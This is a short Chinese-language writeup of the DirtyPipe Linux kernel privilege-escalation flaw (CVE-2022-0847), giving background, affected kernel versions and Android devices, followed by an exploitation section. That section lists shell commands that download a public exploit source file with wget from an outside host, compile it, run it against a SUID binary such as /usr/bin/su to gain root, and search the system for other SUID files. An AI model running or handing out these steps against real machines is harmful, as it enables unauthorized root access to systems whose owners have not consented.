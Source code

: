 ## **脏管道DirtyPipe提权(CVE-2022-0847)**

2022年3月7日，安全研究员Max提出一个Linux内核提权漏洞CVE-2022-0847，利用该漏洞，攻击者能够实现低权限用户提升至root权限，且完成主机任意可读文件的读写。该漏洞在原理上与先前出现的“DirtyCow”脏牛提权漏洞类似，且本质上是由于Kernel内核中编写的匿名管道限制不严的问题，所以将其命名为“DirtyPipe”。

通过利用 Dirty Pipe 漏洞，可以覆盖重写**任意可读文件**中的数据，从而将普通权限的用户提升为特权 root 用户。


该漏洞目前评级为高危，利用难度为简易。
具体影响内核版本为：5.8≤Linux kernel version≤5.16.11/5.15.25/5.10.102

大量新发布的安卓12手机已经用上了Linux内核5.8版本及以上，因此这些设备将受到影响，包括搭载骁龙8Gen1、天玑8000系列天玑9000、Exynos2200和谷歌Tensor的设备等


## **利用**
```
wget https://haxx.in/files/dirtypipez.c
gcc -o dirtypipez dirtypipez.c
/dirtypipez  /usr/bin/su    

传参的参数为任何具有suid权限的文件均可，查看有哪些：
find / -user root -perm -4000 -print 2>/dev/null

id 查看权限
```